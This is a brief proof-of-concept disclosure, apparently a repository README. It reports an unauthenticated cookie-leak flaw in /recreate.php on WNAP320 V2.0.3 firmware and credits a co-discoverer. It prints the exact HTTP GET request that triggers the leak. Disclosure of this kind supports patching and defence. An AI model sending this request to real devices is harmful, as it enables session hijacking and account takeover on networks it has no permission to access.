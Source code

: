 # PoC

There is an unauthorized vulnerability in wnap320, located in /recreate.php, which can leak all users' cookie 

#### http://ip/recreate.php

```


WNAP320_V2.0.3_firmware

GET /recreate.php?username=admin 
HTTP/1.1 Host: 192.168.0.100 
Accept: text/javascript, text/html, application/xml, text/xml, / 
X-Prototype-Version: 1.6.0.2 
X-Requested-With: XMLHttpRequest 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Referer: http://192.168.0.100/index.php?page=master 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Connection: close
```


#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao
